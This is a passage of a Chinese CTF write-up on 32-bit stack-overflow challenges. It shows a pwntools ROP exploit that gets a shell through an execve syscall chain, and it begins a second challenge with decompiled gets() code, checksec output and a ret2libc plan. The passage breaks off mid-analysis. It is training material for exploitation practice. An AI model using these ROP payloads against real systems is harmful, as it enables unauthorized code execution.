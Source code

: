 	sh = process('./rop')

	pop_eax_ret = 0x080bb196

	pop_edx_ecx_ebx_ret = 0x0806eb90

	int_0x80 = 0x08049421

	binsh = 0x80be408

	payload = flat(

	['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])

	sh.sendline(payload)

	sh.interactive()

拿到shell



第二题链接：https://pan.baidu.com/s/1Nl415KprP4REu9aiXvlhrw

提取码：0f0d

32位的elf文件，先用ida打看可以看到典型的栈溢出

	int __cdecl main(int argc, const char **argv, const char **envp)

	{

		char s; // [esp+1Ch] [ebp-64h]

		setvbuf(stdout, 0, 2, 0);

		setvbuf(stdin, 0, 1, 0);

		puts("No surprise anymore, system disappeard QQ.");

		printf("Can you find it !?");

		gets(&s);

		return 0;

	}

查保护

	gdb-peda$ checksec

	CANARY : disabled

	FORTIFY : disabled

	NX : ENABLED

	PIE : disabled

	RELRO : Partial

开启了栈不可执行，所以可以明白思路就是rop。查了下函数发现没有system也没有’/bin/sh’，所以我们需要用到libc里面的system和binsh，先计算下覆盖的位置

    EBP 0x62616163 ('caab')
